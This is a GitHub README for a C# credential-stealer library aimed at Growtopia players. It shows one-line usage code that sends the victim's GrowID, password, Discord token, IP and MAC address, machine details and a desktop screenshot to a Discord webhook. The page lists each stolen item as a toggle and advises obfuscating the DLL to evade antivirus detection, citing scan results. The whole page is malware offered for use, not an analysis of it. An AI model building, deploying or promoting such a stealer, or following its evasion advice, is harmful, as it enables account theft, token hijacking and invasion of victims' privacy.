 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't, use any obfuscator to make it FUD. (Used [Agile.Net](https://secureteam.net/acode-features-detailed) Scan Results 0/26) (Without Obfuscator 4/26)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/837357864609199746/4wIlD35Q9QNdLGEfd9hWezQX9eAMxCBqDQcMmIBBvAtoKTjDlJAzkMaxyc1kcxaY4TpP", "Webhook Picture Url (Optional)", "Stealer Library", true, false, true, true, false, true, false, true, true);
        }
    }
}
```
1. Webhook Url
2. Webhook Picture Url (Optional)
3. Webhook Name (Optional)
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)
7. Discord Token (True/False)
8. User Name (True/False)
9. Machine Name (True/False)
10. OS Information (True/False)
11. Country (True/False)
12. Desktop Screenshot (True/False)

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
